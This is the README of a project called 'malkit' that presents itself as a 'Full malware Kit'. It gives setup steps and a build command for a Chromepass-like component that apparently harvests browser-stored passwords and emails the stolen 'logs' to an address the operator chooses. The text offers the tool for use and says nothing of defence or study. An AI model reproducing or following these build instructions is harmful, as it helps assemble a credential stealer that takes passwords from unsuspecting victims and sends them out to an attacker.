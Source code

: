 # malkit
Full malware Kit


README in development, will be updated shortly.

To test, first create a new environment (best practice). 
I testes it on a full Anaconda environment.
Tested on python 3.7+ (doesn't work on 3.8 yet). Probably works on 3.6

Then install dependencies (pip install -r requirements.txt)

For now, the functionality that is the same as Chromepass exists as the following:
python malkit.py build_chromepass --email --address yourEmail@domain.com

where the email is the one you want to receive the logs at. 

